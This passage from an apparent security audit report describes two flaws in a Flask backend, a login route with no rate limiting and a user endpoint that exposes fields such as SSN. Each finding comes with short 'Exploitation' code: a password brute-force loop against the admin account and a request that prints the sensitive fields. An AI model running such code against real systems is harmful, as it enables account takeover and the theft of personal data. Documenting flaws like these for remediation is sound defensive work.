 ### 2. Missing Rate Limiting
**Location**: `backend/routes/auth_routes.py`
```python
@app.route('/api/login', methods=['POST'])
def login():
    # No rate limiting
    # No brute force protection
    username = request.json.get('username')
    password = request.json.get('password')
    
    user = authenticate(username, password)
```

**Impact**:
- Brute force attacks on authentication
- Potential DoS through resource exhaustion
- Account enumeration becomes possible
- Server resources can be depleted

**Exploitation**:
```python
import requests

# Brute force attack
for password in passwords:
    response = requests.post('/api/login', json={
        'username': 'admin',
        'password': password
    })
    if response.status_code == 200:
        print(f"Found password: {password}")
```

### 3. Excessive Data Exposure
**Location**: `backend/routes/user_routes.py`
```python
@app.route('/api/users/<user_id>')
@login_required
def get_user(user_id):
    user = User.query.get(user_id)
    # Returns all user data including sensitive fields
    return jsonify(user.to_dict())
```

**Impact**:
- Exposure of Personally Identifiable Information (PII)
- Sensitive data leakage through API responses
- Privacy violations of user data
- Potential regulatory compliance issues

**Exploitation**:
```python
# Fetch user data to extract sensitive info
response = requests.get('/api/users/1')
user_data = response.json()

# Access sensitive fields
print(f"SSN: {user_data['ssn']}")
print(f"DOB: {user_data['date_of_birth']}")
```
